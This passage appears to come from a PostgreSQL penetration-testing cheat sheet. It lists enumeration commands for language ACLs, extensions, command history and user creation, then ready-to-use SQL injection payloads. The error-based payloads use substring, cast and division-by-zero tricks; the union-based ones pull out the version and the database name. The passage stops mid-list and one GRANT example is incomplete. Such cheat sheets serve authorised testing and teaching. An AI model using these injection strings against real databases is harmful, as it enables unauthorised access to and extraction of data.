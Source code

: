     ```sql
    SELECT lanname,lanacl FROM pg_language;
    ```
*   **Show installed extensions:**

    ```sql
    SHOW rds.extensions;
    ```
*   **Get history of commands executed:**

    ```sql
    \s
    ```
*   **Running a Query:**

    ```sql
    SELECT * FROM <table_name>;
    ```
*   **Creating a User:**

    ```sql
    CREATE USER <username> WITH PASSWORD '<password>';
    ```
*   **Granting Privileges:**

    ```sql
    GRANT
    ```

#### SQL Injection

**Error-Based SQLi**

*   **Substring Error:** Triggers an error by exceeding the allowable substring length.

    ```
    ' AND 1=(SELECT SUBSTRING(version(), 1, 1000)) -- -
    ```
*   **Invalid Cast:** Generates a cast error by converting a user name to an integer.

    ```c
    ' AND 1=CAST((SELECT current_user) AS int) -- -
    ```
*   **Division by Zero:** Forces a division by zero error.

    ```c
    ' AND 1/(SELECT COUNT(*) FROM pg_catalog.pg_tables)=0 -- -
    ```

**Union-Based SQLi**

*   **Database Version:** Appends the PostgreSQL version to the result set.

    ```c
    ' UNION SELECT NULL, version() -- -
    ```
*   **Database Name:** Extracts the name of the current database.
